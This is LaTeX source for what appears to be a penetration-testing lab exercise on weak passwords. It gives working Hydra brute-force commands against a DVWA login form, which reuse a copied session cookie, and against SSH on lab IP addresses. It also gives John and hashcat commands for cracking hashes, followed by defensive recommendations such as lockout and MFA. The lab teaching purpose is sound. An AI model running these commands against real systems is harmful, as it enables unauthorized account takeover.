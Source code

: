 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{steps}
\item DVWA's brute-force page requires an authenticated session --- log in to DVWA in
  a browser first (any valid account, security level \textbf{low}), open DevTools
  $\to$ Application/Storage $\to$ Cookies, and copy the \texttt{PHPSESSID} value.
  Without this cookie, every Hydra attempt just hits the login redirect and ``fails''
  regardless of the password tried.
\end{steps}

\begin{cmdbox}
\begin{cmdverb}
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.30 \
  http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^\
&Login=Login:Login failed:H=Cookie: security=low; PHPSESSID=<paste_session_id_here>"
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}
\begin{cmdverb}
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.50.40
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}
\begin{cmdverb}
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
\end{cmdverb}
\end{cmdbox}

\begin{expectbox}
\texttt{hydra} reports a recovered valid credential pair once it matches a weak entry
in the wordlist (fast against \texttt{rockyou.txt} because these are intentionally weak
lab accounts). \texttt{john}/\texttt{hashcat} report the cracked plaintext for any
captured hash. Each successful crack is direct evidence for the policy weaknesses
Fahdil documents next.
\end{expectbox}

\begin{bluebox}
\fahdil\ reviews the workstation's local account policy (or the DVWA/service login
policy) and records concrete weaknesses observed from the attack above: no lockout
threshold, no complexity rule, default credentials still active. Recommendations:
enforce lockout after N failed attempts, minimum complexity, and MFA where the
platform supports it --- feeds directly into Task 12's hardening plan.
\end{bluebox}
\end{document}
